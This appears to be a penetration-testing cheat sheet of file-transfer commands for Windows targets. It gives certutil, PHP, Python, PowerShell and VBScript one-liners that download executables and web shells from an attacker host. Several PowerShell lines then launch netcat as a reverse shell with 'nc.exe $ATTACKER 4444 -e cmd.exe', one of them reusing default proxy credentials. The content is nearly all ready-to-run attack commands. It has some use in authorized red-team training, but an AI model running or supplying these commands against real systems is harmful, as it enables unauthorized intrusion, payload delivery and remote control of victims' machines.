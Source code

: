 CertUtil
```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

PHP
```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

Python
```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

HTTP: PowerShell
```powershell
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```

HTTP: VBScript
Copy and paste contents into a Windows Shell
```VBScript
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs


#After you've created wget.vbs
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```
